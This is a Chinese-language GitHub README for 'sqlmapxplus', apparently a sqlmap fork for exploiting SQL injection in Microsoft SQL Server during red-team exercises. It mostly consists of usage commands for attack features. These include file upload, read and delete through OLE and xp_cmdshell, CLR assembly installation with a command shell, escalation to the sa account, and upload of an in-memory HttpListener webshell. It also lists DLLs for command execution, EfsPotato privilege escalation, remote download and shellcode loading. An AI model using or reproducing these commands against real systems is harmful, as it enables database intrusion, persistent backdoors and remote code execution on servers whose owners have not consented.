 ## sqlmapxplus

### 简介

在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。

sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。

1. **20250121更新说明**：
   更新工具的交互方式、
   更新CLR注入利用方式
   
3. 针对实际网络过程中dll传输损失导致clr安装失败的问题

   更新CLR落地加载功能（需要落地dll）和一键数据库CLR加载功能（无需落地dll）可根据场景选择合适的利用方法、
   
   临时增加 --check-file 选项判断dll文件是否成功落地目标主机、
   
   临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功、
   
   需要注意的是 --check-file 和 --check-clr 选项存在判断不准确的问题，仅供参考
   
   实践过程中可能受url编码等影响，会导致注入利用失败

5. 为什么使用上传过程中会出现dll放大的问题
   转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍，ole文件上传极限为20kb

6. 自定义clr的问题（已完成）
   install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名
   clr_shell模式下执行clr函数的方式修改为： 用户自定义function 传入参数（已完成）

### 功能介绍

```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del  	  delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr1      install clr1
--install-clr2      install clr2
--clr-shell         clr shell 
--to-sa             current db to sa
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 
```

![image](https://github.com/co01cat/SqlmapXPlus/assets/63174234/b6252bc9-6a8d-4804-a203-ed5d33fae141)

### Usage

**文件操作功能**:

```
# 开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 通过 ole 实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 

# 通过 xp_cmdshell实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 
```

**CLR相关的功能**

```
# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader​
# 对应项目目录下单独功能的dll，分别为
clrexec.dll
clrefspotato.dll
clrdownload.dll
clrshellcodeloader.dl
```


### 其他

公众号：赛博大作战

知识星球：渗透测试宝典

旧版本的参考链接：https://mp.weixin.qq.com/s/nTYPKnl9XQLWhZ43sQV3xw

新版本的参考链接：https://mp.weixin.qq.com/s/6RpxXitEPt8rA1DFb56Oxw

### References

https://github.com/sqlmapproject/sqlmap 

https://github.com/uknowsec/SharpSQLTools

https://github.com/Anion3r/MSSQLProxy

https://mp.weixin.qq.com/s/X0cI85DdB17Wve2qzCRDbg

https://yzddmr6.com/posts/asp-net-memory-shell-httplistener/

